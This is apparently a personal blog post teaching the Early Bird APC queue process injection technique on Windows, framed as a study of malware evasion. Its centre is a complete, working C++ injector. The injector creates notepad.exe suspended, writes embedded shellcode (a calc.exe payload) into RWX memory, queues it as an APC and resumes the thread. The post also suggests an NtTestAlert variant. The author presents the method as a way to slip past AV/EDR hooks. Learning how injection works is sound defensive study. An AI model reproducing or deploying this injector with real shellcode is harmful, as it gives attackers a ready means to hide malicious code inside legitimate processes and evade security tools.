


Simple Early Bird Injection
overview
- Introduction
- overview of APCqueue injection
- write injection code in c++
- Extra
Introduction
A couple of months ago, I got curious about how malware works and evades anti-virus detection. Just pick up injection technics, there’re many kinds of ways that fascinate me a lot. So I decided to write about one of the process injection technics. In this blog, I‘ll mention “Early Bird APC Queue Code Injection”. Now let’s get started!!
First of all, What is Process Injection, and how it works?
According to MITRE definition, Process injection is a method of executing arbitrary code in the address space of a separate live process. This technique is used for evading process-based defenses as well as possibly elevating privileges. Running code in the context of another process may allow access to the process’s memory, system/network resources, and possibly elevated privileges. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process.
The figure below is a brief of classic shellcode injection flow

As shown above, Process A gets a handle of Process B first, and VirtualAllocEx allocates a memory buffer into the remote process B. WriteProcessMemory writes Shellcode into the memory buffer. CreateRemoteThread creates a thread of shellcode inside Process B and the thread will be executed. For more details, you can check here. This is a well-explained code injection on a remote process.
https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html
Now that you know the process injection basics, let’s get down to APC injection.
First, we want to know what is APC.
Here are some simple explanations of APC.
- An asynchronous procedure call (APC) is a function that executes asynchronously in the context of a particular thread
- Each thread has a queue that stores all the APCs.
- When a user-mode APC is queued, queued APC functions are executed when the thread enters an alterable state.
https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls
APC injection is a method of executing arbitrary code in the address space of a separate live process. It is used for evading process-based defenses as well as possibly elevating privileges.
APC injection is commonly performed by attaching malicious code to the APC Queue of a process’s thread.
https://learn.microsoft.com/en-us/windows/win32/fileio/alertable-i-o
This time I use “Early Bird injection”. The advantage of this technique is the malicious behavior takes place early on in the process initialization phase, increasing the likelihood of going under the radar of some AV/EDR hooks.
Here are some steps
- Create a new legitimate process in a suspended state
- Allocate memory buffer into the target process
- Write shellcode into the allocated buffer
- Queue an APC to the suspended thread
- Resume the thread and the shellcode is executed
This is the injection code below.
#include<windows.h>
//payload to run calc.exe
unsigned char payload[] = {
0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
int main(void)
{
STARTUPINFO si;
PROCESS_INFORMATION pi;
HANDLE hProcess;
HANDLE hThread;
SIZE_T payload_len = sizeof(payload);
PVOID RemoteBuff;
ZeroMemory(&si,sizeof(si));
ZeroMemory(&pi,sizeof(pi));
//Create the process with a suspended state
CreateProcessA( "C:\\Windows\\System32\\notepad.exe",NULL,NULL,NULL,FALSE,CREATE_SUSPENDED,NULL,NULL,&si,&pi);
WaitForSingleObject(pi.hProcess,3000);
hProcess = pi.hProcess;
hThread = pi.hThread;
//Allocate the memory buffer
RemoteBuff = VirtualAllocEx(hProcess,NULL,payload_len,MEM_COMMIT | MEM_RESERVE,PAGE_EXECUTE_READWRITE);
//Write payload to allocated buffer
WriteProcessMemory(hProcess,RemoteBuff,payload,payload_len,NULL);
//Inject into the suspended thread
LPTHREAD_START_ROUTINE apc = (LPTHREAD_START_ROUTINE)RemoteBuff;
QueueUserAPC((PAPCFUNC)apc,hThread,NULL);
//Alert
ResumeThread(hThread);
return 0;
}
Compile the code and run it

We see that calc.exe is running so, It seems the injection working successfully.
Extra
We can use undocumented NtTestAlert function instead of ResumeThread. NtTestAlert dispatches APC queue instantly and executes shellcode.
Here is an example https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalert
This time I tried APC injection and it was fun to work on this project as my first blog article. I’ll keep understanding malware evasion techniques or system internals and hopefully, this article helps someone who aspires to know the injection technique.
Reference
CreateProcessA https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
WaitForSingleObject
https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject
ZeroMemory
https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366920(v=vs.85)
VirtualAllocEx
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex
WriteProcessMemory
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory
QueueUserAPC
ResumeThread
https://github.com/Zisc0/APC-Injector/blob/main/apcinjector.cpp
https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection
https://tbhaxor.com/windows-process-injection-using-asynchronous-threads-queueuserapc/
https://attack.mitre.org/techniques/T1055/004/
https://snoozy.hatenablog.com/entry/2020/01/13/194058
https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls